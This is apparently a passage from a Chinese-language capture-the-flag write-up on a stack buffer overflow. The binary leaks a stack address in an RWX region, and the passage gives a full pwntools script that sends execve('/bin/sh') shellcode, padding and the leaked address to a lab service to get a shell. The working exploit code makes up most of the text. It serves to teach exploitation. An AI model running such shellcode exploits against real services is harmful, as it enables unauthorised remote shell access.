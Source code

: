 调试运行后发现这个RWX段其实就是栈，且程序还泄露出了buf所在的栈地址：

![Alt](img/shellcode拼接3.png)
![Alt](img/shellcode拼接4.png)

所以我们的任务只剩下找到一段合适的shellcode，利用栈溢出劫持RIP到shellcode上(buf的起始地址，因为shellcode是通过输入写入到buf中的，所以劫持RIP到buf的起始地址就可以执行shellcode）执行。所以有以下脚本：

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *

  context.update(arch = 'amd64', os = 'linux', timeout = 1)

  io = remote('172.17.0.3', 10001)

  shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
  #xor rdx, rdx
  #mov rbx, 0x68732f6e69622f2f
  #shr rbx, 0x8
  #push rbx
  #mov rdi, rsp
  #push rax
  #push rdi
  #mov rsi, rsp
  #mov al, 0x3b
  #syscall

  print io.recvuntil("Location:")
  shellcode_address_at_stack = int(io.recv()[0:14], 16)
  log.info("Leak stack address = %x", shellcode_address_at_stack)

  payload = ""
  payload += shellcode
  payload += "\x90"*(0x28-len(shellcode))
  payload += p64(shellcode_address_at_stack)

  io.send(payload)
  io.interactive()
```
